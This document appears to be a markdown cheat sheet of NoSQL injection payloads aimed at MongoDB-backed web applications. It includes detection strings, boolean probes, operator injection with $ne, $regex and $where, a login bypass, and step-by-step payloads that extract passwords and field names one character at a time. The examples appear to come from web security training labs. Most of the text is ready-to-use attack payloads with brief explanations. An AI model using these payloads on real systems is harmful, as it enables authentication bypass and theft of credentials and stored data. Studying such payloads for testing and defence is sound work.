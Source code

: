 # Basic operator difference between SQLi && NoSQLi
  1. ```or``` >> ```||```
  2. ```and``` >> ```&&```
  3. ```-- -``` >> ```%00``` 
# Detecting NoSQLi Vulnerability
```
'
\'
'+%26%26+1%3d%3d1%00
'+||+1%3d%3d1%00
'||1||'
'%22%60%7b%0d%0a%3b%24Foo%7d%0d%0a%24Foo%20%5cxYZ%00
'\"`{\r%3b$Foo}\n$Foo+\\xYZ\u0000
```
# Confirming conditional behavior
```
' && 0 && 'x
' && 1 && 'x
' || 1 || 'x
'%00
```
You can also remove the ```x``` end of the payload.
## Example with explanation:

  1. ```category=Gifts' && 0 && 'x``` >> This will return no items like ```category=Gifts' and 1=0-- -``` in sql injection.
  2. ```category=Gifts' && 1 && 'x``` >> This will return Gift items like ```category=Gifts' and 1=1-- -``` in sql injection.
  3. ```category=Gifts' || 1 || 'x``` >> This will return all the items like ```category=Gifts' or 1=1-- -``` in sql injection.

# NoSQL operator injection
```
    $where - Matches documents that satisfy a JavaScript expression.
    $ne - Matches all values that are not equal to a specified value.
    $in - Matches all of the values specified in an array.
    $regex - Selects documents where values match a specified regular expression.
```
## Submitting query operators
In JSON messages, you can insert query operators as nested objects. For example, ```{"username":"wiener"}``` becomes ```{"username":{"$ne":"invalid"}}```.

For URL-based inputs, you can insert query operators via URL parameters. For example, username=wiener becomes ```username[$ne]=invalid```. If this doesn't work, you can try the following:

    Convert the request method from GET to POST.
    Change the Content-Type header to application/json.
    Add JSON to the message body.
    Inject query operators in the JSON.
# MongoDB Login Bypass
```
{"$regex":""} >> For username
{"$ne":"Invalid"} >> For password
```
# MongoDB Data Retrieving
```
' && this.password.length < 50%00 >> For extracting password length in URL
' && this.password[0] == 'a'%00 >> For extracting password in URL
```
#Operator Injection To Retrieving Unknown Data

{"username":{"$regex":"admin"},"password":{"$ne":"Invalid"}}
{"username":{"$regex":"admin"},"password":{"$ne":"Invalid"},"$where":"e"} >> To generate an server error.
{"username":{"$regex":"admin"},"password":{"$ne":"Invalid"},"$where":"0"} >> To generate a false statement.
{"username":{"$regex":"admin"},"password":{"$ne":"Invalid","$where":"1"}} >> To generate a true statement.
{"username":{"$regex":"admin"},"password":{"$ne":"Invalid"},"$where":"0"}  >>  {"username":{"$regex":"admin"},"password":{"$ne":"Invalid","$where":"Object.keys(this)[0].match('^.{0}.*')"}}
{"username":{"$regex":"admin"},"password":{"$ne":"Invalid"},"$where":"0"}  >>  {"username":{"$regex":"admin"},"password":{"$ne":"Invalid","$where":"Object.keys(this)[0].match('^.{0}0.*')"}}

Object.keys(this)[0].match('^.{0}.*') >> To identify data size. Ex: Password
Object.keys(this)[0].match('^.{0}0.*') >> To fetch the data
this.forgotpwd.match('^.{0}.*') >> To fetch specific keyvalue data size.
this.forgotpwd.match('^.{0}0.*') >> To fetch specific keyvalue.

1st 0 means key number
2nd 0 means data size
3rd 0 means data character
For bruteforcing select only 2nd and 3rd 0
